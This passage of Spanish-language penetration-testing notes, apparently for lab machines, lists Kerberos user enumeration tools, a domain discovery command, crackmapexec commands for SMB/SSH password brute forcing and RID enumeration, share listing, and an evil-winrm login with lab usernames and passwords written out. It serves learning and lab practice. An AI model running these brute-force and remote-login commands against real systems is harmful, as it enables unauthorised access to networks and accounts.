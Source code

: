 En el comando, Mailing.local es el domain del Active directory y users.txt es la lista de usuarios a probar.


**Nota** El reloj de la maquina debera estar cincronizado, si no esta, existe la utilidad siguiente para sincronizarlo:
```s
ntpdate 10.129.232.227
```

Tenmos tambien la utilidad GetUsersSPNs.py

Otra alternativa más rapida podría ser un modulo de metasploit 
```s
msf5 auxiliary(gather/kerberos_enumusers) >
```
Podriamos recibir resultados identicos pero las opciones más estables son kerbrute o Impacket <a href="http://getnpusers.py/"> GetNPUsers.py.</a>

Una vez tengamos un usuario y contrasena, GetNPUsers nos puede ayudar para solicitar un ticket de kerberos en caso de que este activo.

### [](#header-3)<a id="netbios_enum">Enumeracion de NETBIOS</a>
El primer paso, sera descubrir si existe un dominio presente, este escaneo es pasivo y el comando a ejecutar desde una maquina windows seria:

```s
C:\>net view /domain
```
## [](#header-2)<a id="reconocimiento">Initial Access</a>
Fuerza bruta de contrasenas SMB y SHH
```s
#en mi maquina parrot tengo esta utilidad como cme
#Con lista de usuarios y contrasenas
crackmapexec smb 10.10.10.184 -u users -p credentials --continue-on-success
#Podemos usar esta herramienta para enumerar usuarios de la forma 
crackmapexec smb cicada.htb -u "guest" -p '' --rid-brute | grep SidTypeUser
#Si la respuesta anterior da positivo, podemos usar este comando para guardar los usuarios
cme smb cicada.htb -u "guest" -p '' --rid-brute | grep SidTypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 >> users.txt

crackmapexec ssh 10.10.11.166 -u users -p password --continue-on-success

#validacion
crackmapexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'

#Listar los recursos compartidos con el nuevo usuario
cme smb 10.129.232.227 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --shares
```

Teniendo una sesion valida, ahora podemos interactuar con la consola con evilwinrm
```s
evil-winrm -i 10.10.10.203 -u "nathen" -p "wendel98"
```
